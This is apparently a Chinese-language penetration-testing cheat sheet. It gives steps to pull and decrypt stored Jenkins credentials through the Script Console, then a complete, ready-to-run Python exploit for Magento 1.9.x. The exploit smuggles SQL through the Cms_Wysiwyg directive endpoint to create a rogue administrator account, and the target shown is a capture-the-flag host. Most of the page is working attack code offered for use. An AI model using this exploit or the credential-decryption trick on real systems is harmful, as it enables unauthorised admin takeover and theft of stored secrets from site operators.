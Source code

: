 - **登录 jenkins ，如果在凭据> 高权限用户> Update (credentials)** 
如果存在 Private Key , 可以尝试 Shift + Ctrl + C 查看是否可以查看加密内容
```bash
<input name="_.privateKey" type="hidden" value="xxxxxx">
```

Dashboard > Manage Jenkins > Script Console
```bash
println(hudson.util.Secret.decrypt("xxxxx"))
```
直接 run 就可以看到解密后的数据


### Magento 
2014-2015 , Version 号为1.9.x

**远程添加管理员漏洞 （Magento eCommerce - Remote Code Execution）：**
(修改 target 带 index.php , 也可以修改密码)
```python
import requests
import base64
import sys

target = "http://swagshop.htb/index.php"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="xekoner", password="xekoner")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url,
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin".format(target)
else:
    print "DID NOT WORK"
```
